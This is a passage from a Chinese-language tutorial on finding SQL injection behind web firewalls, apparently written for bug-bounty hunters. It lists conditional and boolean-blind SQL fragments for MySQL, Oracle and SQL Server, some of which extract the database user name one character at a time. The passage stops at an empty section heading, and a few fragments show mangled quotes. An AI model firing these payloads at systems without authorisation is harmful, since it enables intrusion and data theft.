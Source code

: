 ## 前言

主要针对SRC和众测，探讨自己的方法

怎么分析，怎么去绕，怎么去获取证据，等等



## 一、拦截框架下注入的过程拆解

越来越多的web系统，随着运维方安全意识的提高，网络设备的投入，
以及安全编码规范的介入，漏洞的发现从过去的简单粗暴，到现在举步
维艰，怎么去判断漏洞的存在，进而根据漏洞获取证据数据，这个是个
众测平台选手的痛点

### 1.数据库层面基础铺垫

1. 判断性SQL语句的形式

2. 条件判断函数方法分析

   mysql

   ```mysql
   if(1=(select 1 REGEXP if(1=1,1,0x00)),1,1)=1
   IFNULL(ascii(substr(user(),1,1))/(114%ascii(substr
   (user(),1,1))),'yes’)
   IFNULL(hex(substr(user(),1,1))/(114%hex(substr(user(),1,1))),'yes’)
   IFNULL(1/(locate(substr(user(),1,1),'r')),'yes’)
   IFNULL(1/(locate(right(left(lower(user()),1),1),'r')),' yes’)
   left(user(),1)="r";
   if(1=1,1,1)
   ```

   oracle

   ```sql
   NVL(TO_CHAR(DBMS_XMLGEN.getxml('select 1 from dual where 1337>1')),'1')!=1
   NVL2(NULLIF(substr('abc',1,1),'ca'),1,2)=1
   INSTR('abcd','b', 2, 1)>0 2018-10-21’- decode(1,21,1,to_date(decode(1,1,'','s'),'yyyy
   -mm-dd'))-’
   to_date(decode(substr(user,1,1),'a','','s'),'yyyy-mm-dd’))
   decode(sign(INSTR(USER,'A', 2, 1)),0,to_number('x'),1)
   ```

   sqlserver

   ```sql
   PATINDEX('Wa%25', 'Washington')>0
   right(left(lower('abc'),1),1)='a’
   isnull(nullif(substring('abc',1,1),'a'),'c')='c' 
   regexp_like(1,(case when 1=1 then 1 else 0x00end))
   ```

   

3. 通用型判断SQL语句
